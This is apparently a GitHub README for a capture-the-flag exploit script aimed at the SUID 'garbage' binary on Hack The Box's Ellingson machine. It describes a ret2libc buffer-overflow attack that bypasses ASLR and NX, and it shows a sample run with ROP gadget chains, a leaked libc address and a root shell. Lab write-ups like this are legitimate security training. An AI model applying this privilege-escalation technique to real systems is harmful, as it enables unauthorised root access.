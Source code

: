 # ellingson-exploit.py

Exploits buffer overflow in `garbage` SUID bit binary on HTB's ellingson box.  Bypasses ASLR/NX via Ret2libc.

# Example run on HTB's Ellingson:

`python ellingson-exploit.py`

```
[*] Loaded cached gadgets for 'garbage'        
[*] 0x0000:         0x40179b pop rdi; ret      
    0x0008:         0x404028 [arg0] rdi = got.puts                                             
    0x0010:         0x401050                   
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Starting remote process '/usr/bin/garbage' on 10.10.10.139: pid 1528
[+] leaked puts: 0x7fed431609c0
[*] libc addr: 0x7fed430e0000
[*] 0x0000:         0x40179b pop rdi; ret
    0x0008:              0x0 [arg0] rdi = 0
    0x0010:   0x7fed431c5970
    0x0018:         0x40179b pop rdi; ret
    0x0020:   0x7fed43293e9a [arg0] rdi = 140657010753178
    0x0028:   0x7fed4312f440
[*] Switching to interactive mode

access denied.
# $ 
```

### Requirements

Needs the `garbage` binary and `libc.so.6` from the target.
